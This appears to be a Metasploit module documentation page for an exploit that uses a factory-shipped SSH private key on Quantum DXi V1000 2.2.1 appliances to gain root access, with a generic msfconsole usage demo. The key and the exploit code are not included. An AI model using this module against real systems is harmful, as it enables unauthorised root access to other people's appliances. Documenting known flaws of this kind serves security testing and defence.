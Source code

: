 ## Quantum DXi V1000 SSH Private Key Exposure

Quantum ships a public/private key pair on DXi V1000 2.2.1 
appliances that allows passwordless authentication to any 
other DXi box. Since the key is easily retrievable, an 
attacker can use it to gain unauthorized remote access as 
root.


## Module Name
exploit/linux/ssh/quantum_dxi_known_privkey

## Authors
xistence <xistence[at]0x90.nl>


## References
* https://packetstormsecurity.com/files/125755



## Targets
* Universal


## Platforms
unix

## Reliability
[Excellent](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/linux/ssh/quantum_dxi_known_privkey
msf exploit(quantum_dxi_known_privkey) > show targets
   ... a list of targets ...
msf exploit(quantum_dxi_known_privkey) > set TARGET <target-id>
msf exploit(quantum_dxi_known_privkey) > show options
   ... show and set options ...
msf exploit(quantum_dxi_known_privkey) > run
```
    
    